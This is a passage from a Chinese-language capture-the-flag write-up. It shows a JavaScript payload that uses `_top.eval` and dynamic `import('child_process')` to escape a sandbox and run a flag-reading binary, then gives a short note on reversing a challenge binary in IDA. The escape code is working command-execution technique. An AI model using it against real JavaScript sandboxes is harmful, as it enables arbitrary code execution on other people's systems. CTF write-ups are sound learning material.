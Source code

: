 ### 后端开发
第一阶段在网上搜过之后尝试 `require` 以导入 `child_process`，没有成功，就先搁置了。

第二阶段提示告诉我可以用 `import()`，于是：
```Javascript
_top.eval("
	import('child_process').then((module) => {
	module.exec('/read_flag_2', function(error, stdout, stderr){
		if(error)
		{
			console.error('error: ' + error+stdout);
			return;
		}
		console.log('stdout: ' + stdout);
		console.log('stderr: ' + stderr);});
	}).catch((error) => {console.log(error);});
")
//实际运行时是直接合到一行输进去的，这里换行是为了看着舒服点
```

![](img/概率flag2.png)

## Fast Or Clever
下载之后往 IDA 一扔，F5，看不懂，叉掉（

后来看到好多人都做出来了，想着也许是送分题，又拿出来看了一下，这次大概知道它如何工作以及我要做什么。

看到个 260L，于是：

![](img/fastorclever.png)
